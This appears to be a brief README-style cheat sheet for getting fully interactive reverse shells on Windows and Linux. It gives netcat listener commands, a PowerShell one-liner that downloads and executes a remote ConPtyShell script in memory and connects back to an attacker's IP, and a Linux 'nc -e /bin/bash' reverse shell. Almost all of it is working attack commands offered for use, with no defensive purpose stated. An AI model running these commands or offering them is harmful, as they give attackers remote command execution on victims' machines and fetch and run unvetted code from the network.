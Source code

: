 # Fully-Interactive-Reverse-Shell
## For Windows:

ConPtyShell- a Fully Interactive Reverse Shell for Windows systems.
## Requirements
Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)
Server Side: any tcp listener, i.e. netcat

#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
```
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```
```
example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88
```

## For Linux
#### via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
